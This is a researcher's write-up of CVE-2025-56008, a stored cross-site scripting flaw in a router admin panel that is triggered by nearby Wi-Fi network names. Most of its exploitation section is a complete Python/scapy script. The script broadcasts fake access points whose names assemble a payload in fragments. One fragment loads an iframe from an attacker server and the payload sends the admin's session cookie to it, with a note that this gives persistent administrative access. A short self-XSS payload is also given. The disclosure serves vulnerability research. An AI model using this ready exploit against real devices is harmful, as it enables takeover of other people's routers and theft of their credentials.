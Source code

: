 ## CVE-2025-56008

### Discovery

This is yet another CVE that I've found in my router's admin panel.

The discovery was very simple: I named my access point like `std::allocator<void>(5GHz)` as a joke and accidentally found that the `<void>` portion was not displayed in the network name on the Wireless ISP page.

However, it was not so easy to turn this into something interesting.

### Exploitation

Just to confirm the issue, I used a short payload: `<style onload=alert(1)//`. After the admin page loaded while an access point with that name was in range, the `alert(1)` is executed.

But what about real attack? :)

The main problem for executing anything interesting was the SSID length limit of 32 characters. To bypass this, I broadcast a list of networks that assemble the payload step by step by storing fragments in JavaScript variables.

The second problem was the order in which networks are rendered. I overcame this by first broadcasting several networks with basic payload fragments and then - after about five seconds - broadcasting the final network that assembles and executes the payload.

The chosen payload exfiltrates `document.cookie` to an attacker-controlled endpoint via `postMessage`. With the stolen authentication cookie an attacker could obtain persistent administrative access (for example, by changing the admin password or creating a new admin user).

Here is the script that will create a list of networks that load the script from attacker-controlled server. It assumes that you already put your adapter `wlp6s0mon` in monitor mode (`sudo airmon-ng start [adapter]`):

```
import time

from scapy.all import *
from threading import Thread
from faker import Faker


s = 0


def send_beacon(ssid, mac, count=1_000_000_000):
    global s

    dot11 = Dot11(type=0, subtype=8, addr1="ff:ff:ff:ff:ff:ff", addr2=mac, addr3=mac)
    beacon = Dot11Beacon(cap="ESS+privacy", timestamp=123)
    s += 1
    essid = Dot11Elt(ID="SSID", info=ssid, len=len(ssid)) / Dot11Elt(ID='Rates', info='\x82\x84\x8b\x96\x0c\x12\x18') / \
        Dot11Elt(ID='ESRates', info='\x30\x48\x60\x6c') / Dot11Elt(ID='DSset', info=chr([9, 10, 11][s % 3]))
    rsn_array = [b'\x01\x00',
                 b'\x00\x0f\xac\x04',
                 b'\x02\x00',
                 b'\x00\x0f\xac\x04',
                 b'\x00\x0f\xac\x02',
                 b'\x01\x00',
                 b'\x00\x0f\xac\x02',
                 b'\x00\x00']
    rsn_bytes = b''.join(rsn_array)
    rsn = Dot11Elt(ID='RSNinfo', info=rsn_bytes, len=len(rsn_bytes))
    frame = RadioTap()/dot11/beacon/essid/rsn

    sendp(frame, inter=0.05, loop=1, iface=iface, verbose=0, count=count)


if __name__ == "__main__":
    iface = "wlp6s0mon"

    input_ssids = [
        """<style onload=a='*'//""",  # 21
        """<style onload=b='postMessage'//""",  # 31
        """<style onload=c=document//""",  # 26
        """<style onload=d='cookie'//""",  # 26
        """<style onload=e=frames//""",  # 24
        """<iframe src=//MY_SITE/b name="u\"""",  # 32
    ]
    last_ssid = """<style onload=e.u[b](c[d],a)//"""  # 30

    input_ssids += [last_ssid]

    assert all(len(i) <= 32 for i in input_ssids)
    print('\n'.join(input_ssids))

    faker = Faker()
    ssids_macs = [(i, faker.mac_address()) for i in input_ssids]

    for ssid, mac in ssids_macs:
        time.sleep(0.05)
        Thread(target=send_beacon, args=(ssid, mac)).start()

    while True:
        time.sleep(1)
        Thread(target=send_beacon, args=(last_ssid, faker.mac_address()), kwargs={'count': 50}).start()
```

Here is a short explaination:

-   `a = '\*'`
-   `b = 'postMessage'`
-   `c = document`
-   `d = 'cookie'`
-   `e = frames`
-   `e.u[b](c[d],a) = frames.u['postMessage'](document['cookie'],'*')` - "get iframe with name 'u' and send document.cookie via postmessage to it".

### Bonus

Names of this router's home/guest Wi-Fi nets were also affected by XSS, so we have a self-XSS here with payload like `<img src=x onerror=alert()>`. It is useless for attacks, but may be useful for "persistence".
